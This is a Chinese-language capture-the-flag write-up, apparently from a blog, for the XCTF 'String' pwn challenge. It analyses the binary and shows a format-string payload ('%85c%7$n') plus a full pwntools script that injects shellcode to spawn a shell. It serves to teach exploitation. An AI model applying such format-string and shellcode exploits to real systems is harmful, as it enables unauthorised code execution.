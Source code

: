 ```yaml
---
title: 「攻防世界」Pwn - String WriteUp
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## 写在开头的碎碎念

捏🐎咋这个Pwn这么难的啊，看WP也看不懂，~~即刻退出Pwn~~

说归说，至少先把这个攻防世界新手区给它干了

经过几天的~~并不系统的三天打鱼两天晒网的~~学习，现在只能说非常有自信。

**String**应该是攻防世界新手区里最有趣也最难的一题了，开整！

<!--truncate-->



## 开整

### 分析
![exeinfope](https://cdn.novanoir.moe/img/image-20211101153717286.png)

![checksec](https://cdn.novanoir.moe/img/image-20211101153833049.png)

总而言之先扫一遍， 64bit没有PIE

先看看main

![main](https://cdn.novanoir.moe/img/image-20211101153942250.png)

v4申请了一个**8字节长**的内存地址，保存的是`68, 85`两个数据，同时它把这两个数据的地址print了出来

跟进到`sub_400D72()`看看

![sub_400D72()](https://cdn.novanoir.moe/img/image-20211101154214749.png)

让我们输入名字，但是下面对s的长度做了检测所以没办法溢出。

继续看看其他函数，首先是`sub_400A7D()`

![sub_400A7D()](https://cdn.novanoir.moe/img/image-20211101154750528.png)

> 为了训练英语水平这里顺带打个翻译(?)
>
> > 这是一个有名却分外不同寻常的小酒馆。这里空气清新，大理石铺成的地板也很干净。几乎看不到吵闹的客人，家具也没有被在这个世界的其他酒馆寻常可见的打架斗殴所损坏。装饰极其华丽，看着很适合摆在宫殿里，但在这个城市这却是极其平常的。房间中央是天鹅绒覆盖的椅子和长凳，有很大的橡木桌子围绕。一个大告示固定在一根木条后的北面的墙上。在一个角落你发现了一个壁炉。有两个明显的出口：向东，向上。但奇怪的是，并没有人在那，那么你要向哪里走呢？
>
> 这个背景不能说毫无吸引力只能说翻译了是纯纯浪费时间
>
> ~~我是傻宝~~

所以要我们给出选择：`east`Or`up`

但是看下面的代码我们发现了：你只能选择`east`（选择了`up`之后你就会面临无尽之洞），继续接下来看`sub_400BB9()`

![sub_400BB9()](https://cdn.novanoir.moe/img/image-20211101173616709.png)

这里提到了`address`，很容易联想到前面我们的`v4`，估计是要在v2和format做文章，但是具体怎么操作还不清楚，继续看`sub_400CA6()`

![sub_400CA6()](https://cdn.novanoir.moe/img/image-20211101174119436.png)

这里的a1其实就是我们最开始的v4，所以我们需要让`*v4 = v4[1]`

注意下`((void (__fastcall *)(_QWORD))v1)(0LL);`这行，这里把v1转换成了可执行函数（void为返回值类型，__fastcall为协议），在这里我们就可以打shellcode了。

### Payload

接下来就是如何实现的问题了。

先把前面几个固定步骤的写了

![exp_01](https://cdn.novanoir.moe/img/image-20211102105044906.png)



这里就需要引入格式化字符串的漏洞，[传送门](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)

我们需要找一下v4所在的参数位置，传入payload

```python
payload = 'AAAA'+'.%x'*10
```

![addr_info](https://cdn.novanoir.moe/img/image-20211102105300535.png)

可以看到我们的`41414141`位于栈内第八个位置，而我们刚才写入的v4_addr是位于前一个位置的，此时

就可以构造payload使得*v4=85了

```python
payload = '%85c%7$n'
```

![return_0](https://cdn.novanoir.moe/img/image-20211102105850378.png)

这时候我们已经满足`sub_400CA6()`中的条件了，那么只需要轻松写入一个shellcode，就可以拿到shell了。

完整payload:

```python
from pwn import *
context(log_level='debug')

sh = process('./1d3c852354df4609bf8e56fe8e9df316')

sh.recvuntil('secret[0] is ')
v4_addr = int(sh.recvuntil('\n')[:-1], 16)
print(v4_addr)

sh.recvuntil('be:')
sh.sendline(b'yuusya')
sh.sendlineafter('east or up?:\n', b'east')
sh.sendlineafter('leave(0)?:\n', b'1')

# *v4 = 85
sh.sendlineafter("address'\n", str(v4_addr))
payload = '%85c%7$n'
sh.sendline(payload)
sh.recvuntil('I hear it')
context(arch='amd64', os='linux')
sh.sendlineafter('SPELL', asm(shellcraft.sh()))
sh.interactive()
```

